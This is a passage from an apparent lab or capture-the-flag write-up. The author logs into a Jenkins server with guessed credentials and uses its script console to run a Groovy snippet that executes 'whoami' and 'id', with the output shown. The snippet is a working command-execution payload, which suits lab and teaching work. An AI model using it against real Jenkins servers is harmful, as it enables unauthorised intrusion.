 Now after trying these credentials, `eder` worked and we are logged into the `Jenkins`. 

![Jenkins Logged](/img/jarbas/jenkins-after-logged.png){:class="img-responsive center-block"}

But what can we do with it? There was a `/script/ directory allowing us to run any script we enter into the text box. 

I use code from [HighOnCoffe](https://highon.coffee/blog/jenkins-api-unauthenticated-rce-exploit/) blog, which will allow me to execute commands. 

{% highlight text %}
def command = "whoami"
def proc = command.execute()
proc.waitFor()              

println "Process exit code: ${proc.exitValue()}"
println "Std Err: ${proc.err.text}"
println "Std Out: ${proc.in.text}"

Result

Process exit code: 0
Std Err: 
Std Out: jenkins
{% endhighlight %}

We can see that the code executes, showing us `jenkins` as the output. I tried the same with `id` command. 

{% highlight text %}
Process exit code: 0
Std Err: 
Std Out: uid=997(jenkins) gid=995(jenkins) groups=995(jenkins) context=system_u:system_r:initrc_t:s0
{% endhighlight %}
